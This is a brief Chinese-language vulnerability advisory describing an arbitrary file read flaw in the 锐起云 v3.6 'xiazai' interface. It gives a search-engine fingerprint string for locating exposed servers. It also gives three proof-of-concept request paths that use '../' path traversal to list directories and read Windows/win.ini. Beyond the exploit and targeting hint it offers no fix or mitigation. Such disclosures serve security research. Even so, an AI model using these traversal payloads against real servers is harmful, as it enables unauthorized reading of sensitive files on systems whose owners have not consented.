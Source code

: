 # 

# 锐起云 xiazai 任意文件读取漏洞

## 漏洞描述

锐起云 xiazai 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器中的敏感文件。

## 漏洞影响

锐起云 v3.6

## 网络测绘

```
"锐起云"
```

## 漏洞复现

登陆页面

![image-20231115100316838](images/image-20231115100316838.png)

验证POC

```
/dwr/hret/fileTree?filePath=../
/dwr/srecy/xiazai?filePath=../../../../../../../../../../../Windows/win.ini
/dwr/hret/downfile?fpid=../../../../../../../../../Windows/win.ini 
```

![image-20231115100630776](images/image-20231115100630776.png)
